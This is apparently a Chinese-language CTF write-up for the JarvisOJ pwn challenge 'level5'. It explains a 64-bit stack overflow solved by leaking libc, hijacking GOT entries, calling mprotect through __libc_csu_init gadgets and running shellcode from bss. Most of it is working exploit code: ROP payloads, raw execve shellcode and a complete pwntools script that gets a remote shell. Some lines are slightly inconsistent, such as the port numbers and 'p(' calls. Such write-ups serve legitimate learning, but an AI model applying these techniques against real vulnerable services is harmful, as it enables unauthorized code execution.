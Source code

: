 ```yaml
---
layout:     post
title:      jarvisoj level5
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Problem Description:  
>mmap和mprotect练习，假设system和execve函数被禁用，请尝试使用mmap和mprotect完成本题。  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level3_x64.rar.8e639c3daf929853a1bc654d79c7992c  
>  
>Address:  
>nc pwn2.jarvisoj.com 9883  
<!-- more -->


### 0x00 IDA分析

system和execve方法被禁用, 利用mprotect改data段到可执行, 其实这题用level3_x64的exp也能getshell

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x00.png)

同样, 在read处溢出, 将read_addr leak出来, 计算mprotect_addr

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x01.png)

劫持 libc_start_main -> mprotect, gmon_start -> bss, 并将shellcode写到bss

最后ret main, 传第二段payload

```
# leak mprotect_addr
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(rdi_ret_addr) + p64(0x01)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['read']) + p64(0)
payload += p64(bin.plt['write'])
# write mprotect_addr
payload += p64(rdi_ret_addr) + p64(0x00)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__libc_start_main']) + p64(0)
payload += p64(bin.plt['read'])
# write shellcode
payload += p64(rsi_r15_ret_addr) + p64(bin.bss()) + p64(0)
payload += p64(bin.plt['read'])
# write bss_shellcode_addr
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__gmon_start__']) + p64(0)
payload += p64(bin.plt['read'])
payload += p64(bin.symbols['main'])
```

构造call mprotect, 关于mprotect的定义

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x02.png)

关于第三个参数 prot 说明

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x03.png)

利用__libc_csu_init尾部的万能gadgets

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x04.png)

```
x64程序参数传递 :
如果函数的参数数量小于 6 , 则从左至右依次存放在寄存器 : 
rdi, rsi, rdx, rcx, r8, r9
如果大于 6 , 那么多出来的参数按照从右至左的顺序依次压栈

rbx = 0
rbp = 0
r12 = unuse
r13 -> rdx -> arg_2
r14 -> rsi -> arg_1
r15 -> edi -> arg_0
```

最后构造call, 跳到bss就能execute shellcode

```
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(0x4006A6)
# mprotect(0x600000, 0x1000, 7)
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p(bin.got['__libc_start_main']) # pop r12
payload += p64(7) # pop r13
payload += p64(0x1000) # pop r14
payload += p64(0x600000) # pop r15
payload += p64(0x400690)
# sh()
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p64(bin.got['__gmon_start__']) # pop r12
payload += p(0) # pop r13
payload += p(0) # pop rbx
payload += p(0) # pop rbp
payload += p(0x400690)
```


### 0x01 完整的exploit

在本地成功getshell, 但远程服务器不一定每次都成功, 暂时不知道什么问题, 难道这还有概率？

还有在 macOS 上始终失败, 最后改到在kali上执行, 成功拿到flag

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn2.jarvisoj.com', 9884)
#Io = process('./level5')
bin = ELF('./level5')
libc = ELF('libc-2.19.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

#-------------------------write & hijack---------------------------
rdi_ret_addr = 0x4006b3
rsi_r15_ret_addr = 0x4006b1
# leak mprotect_addr
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(rdi_ret_addr) + p64(0x01)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['read']) + p64(0)
payload += p64(bin.plt['write'])
# write mprotect_addr
payload += p64(rdi_ret_addr) + p64(0x00)
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__libc_start_main']) + p64(0)
payload += p64(bin.plt['read'])
# write shellcode
payload += p64(rsi_r15_ret_addr) + p64(bin.bss()) + p64(0)
payload += p64(bin.plt['read'])
# write bss_shellcode_addr
payload += p64(rsi_r15_ret_addr) + p64(bin.got['__gmon_start__']) + p64(0)
payload += p64(bin.plt['read'])
payload += p64(bin.symbols['main'])

Io.recvuntil('Input:\n')
Io.send(payload)
read_addr = u64(Io.recv()[0:8])
mprotect_addr = read_addr - libc.symbols['read'] + libc.symbols['mprotect']
success("read_addr: " + hex(read_addr))
success("mprotect_addr: " + hex(mprotect_addr))

Io.send(p64(mprotect_addr))

sh = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
print len(sh)
Io.send(sh)

Io.send(p64(bin.bss()))

#----------------------------call & getshell----------------------------
payload = ""
payload += 'A' * (0x80 + 0x08)
payload += p64(0x4006A6)
# mprotect(0x600000, 0x1000, 7)
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p(bin.got['__libc_start_main']) # pop r12
payload += p64(7) # pop r13
payload += p64(0x1000) # pop r14
payload += p64(0x600000) # pop r15
payload += p64(0x400690)
# sh()
payload += 'AAAAAAAA'
payload += p64(0) # pop rbx
payload += p64(1) # pop rbp
payload += p64(bin.got['__gmon_start__']) # pop r12
payload += p(0) # pop r13
payload += p(0) # pop rbx
payload += p(0) # pop rbp
payload += p(0x400690)

Io.recvuntil('Input:\n')
Io.send(payload)
Io.interactive()
```

getshell

![](/assets/img/writeup/pwn/2017-08-04-jarvisoj-level5/0x05.png)